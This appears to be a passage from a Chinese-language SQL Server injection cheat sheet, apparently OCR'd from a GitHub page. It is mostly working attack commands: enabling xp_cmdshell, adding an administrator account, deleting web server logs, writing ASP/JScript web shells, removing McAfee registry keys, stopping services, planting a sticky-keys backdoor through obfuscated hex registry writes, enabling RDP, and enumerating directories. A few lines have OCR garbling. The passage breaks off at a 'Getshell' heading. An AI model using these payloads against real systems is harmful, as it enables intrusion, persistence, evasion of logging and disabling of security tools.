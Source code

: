 * 调用系统命令 使用xp_cmdshell（创建系统管理员，操控文件，操控日志文件，getshell）
  **1）判断xp_cmdshell扩展是否存在**
  ```sql
id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')
  ```
  **2）判断xp_regread扩展是否存在**
  ```sql
id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regread')
  ```
  **3）恢复上传**
  ```sql
exec sp_configure 'show advanced options',1;
RECONFIGURE;
exec sp_configure 'xp_cmdshell',1;
RECONFIGURE;
  ```
  **4）新建用户**
  ```sql
;exec master..xp_cmdshell 'net user test test /add'    创建用户
;exec master..xp_cmdshell 'net localgroup administrators test /add'    添加test到管理员组
  ```
  **5）操控日志**
  ```sql
;exec master.dbo.xp_cmdshell 'del C:\winnt\system32\logfiles\w3svc5\.......log'     删除日志
  ```
  **6）Getshell**
  ```sql
echo ^<%Execute(request("a"))%^> >d:\www\123.asp
;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> >c:\\www\\233.asp'; --
  ```
  **7）删除注册表**
  ```sql
reg delete HKLM\SOFTWARE\McAfee /f    删除注册表
Regedit /s d:\web\zh\hp.reg      导入注册表
  ```
* 系统服务操作（关闭系统防火墙，安全软件）
  **1）关闭服务**
```sql
exec master..xp_servicecontrol 'stop','服务名'      停掉某个服务，需要sa权限
exec master..xp_servicecontrol 'start','服务名'      开启某个服务
```
* 注册表操作（创建后门）
  **1）写入shift后门**
  ```sql
exec xp_regwrite 0x484b45595f4c4f43414c5f4d414348494e45,0x534f4654574152455c4d6963726f736f66745c57696e646f7773204e545c43757272656e7456657273696f6e5c496d6167652046696c6520457865637574696f6e204f7074696f6e735c73657468632e657865,0x6465627567676572,0x5245475f535a,'c:\\windows\/system32\\taskmgr.exe'--      利用注册表将5次shift提示更换成任务管理器
  ```
  **2）开启3389**
  ```sql
;exec master..xp_cmdshell 'sc config termservice start=auto
;exec master..xp_cmdshell 'net start termservice'
exec master..xp cmdshell 'reg add "HKEY LOCAL 'MACHINE\SYSTEM CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x0 /f'
```
### （3）dbowner权限利用
* 遍历目录
  **1）搜索web目录**
```sql
;create table temp(dir nvarchar(255) ,depth varchar(255),files varchar(255),ID int NOT NULL IDENTITY(1,1));--
;insert into temp(dir,depth,files)exec master.dbo.xp_dirtree 'c:',1,1--
and(select dir from temp where id=1)>0     由于不能一次性获取所有web目录，所以要改变id值
```
* Getshell